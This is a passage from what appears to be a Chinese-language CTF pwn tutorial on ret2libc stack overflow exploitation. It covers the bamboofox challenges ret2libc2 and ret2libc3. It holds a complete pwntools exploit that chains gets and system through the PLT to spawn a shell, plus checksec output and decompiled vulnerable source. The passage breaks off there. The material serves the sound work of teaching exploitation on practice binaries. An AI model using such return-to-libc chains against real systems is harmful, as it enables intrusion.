 這裏我們需要注意函數調用棧的結構，如果是正常調用 system 函數，我們調用的時候會有一個對應的返回地址，這裏以 `'bbbb'` 作爲虛假的地址，其後參數對應的參數內容。

這個例子相對來說簡單，同時提供了 system 地址與 /bin/sh 的地址，但是大多數程序並不會有這麼好的情況。

#### 例2

這裏以 bamboofox 中的 ret2libc2 爲例 。

> 點擊下載: [ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/linux/user-mode/stackoverflow/ret2libc/ret2libc2/ret2libc2)

該題目與例 1 基本一致，只不過不再出現 /bin/sh 字符串，所以此次需要我們自己來讀取字符串，所以我們需要兩個 gadgets，第一個控制程序讀取字符串，第二個控制程序執行 system("/bin/sh")。由於漏洞與上述一致，這裏就不在多說，具體的 exp 如下：

```python
##!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    [b'a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline(b'/bin/sh')
sh.interactive()
```

需要注意的是，我這裏向程序中 bss 段的 buf2 處寫入 /bin/sh 字符串，並將其地址作爲 system 的參數傳入。這樣以便於可以獲得 shell。

#### 例3

這裏以 bamboofox 中的 ret2libc3 爲例  。

> 點擊下載: [ret2libc3](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/linux/user-mode/stackoverflow/ret2libc/ret2libc3/ret2libc3)

在例 2 的基礎上，再次將 system 函數的地址去掉。此時，我們需要同時找到 system 函數地址與 /bin/sh 字符串的地址。首先，查看安全保護

```shell
➜  ret2libc3 checksec ret2libc3
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序仍舊開啓了堆棧不可執行保護。進而查看源碼，發現程序的 bug 仍然是棧溢出：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets((char *)&v4);
  return 0;
}
```
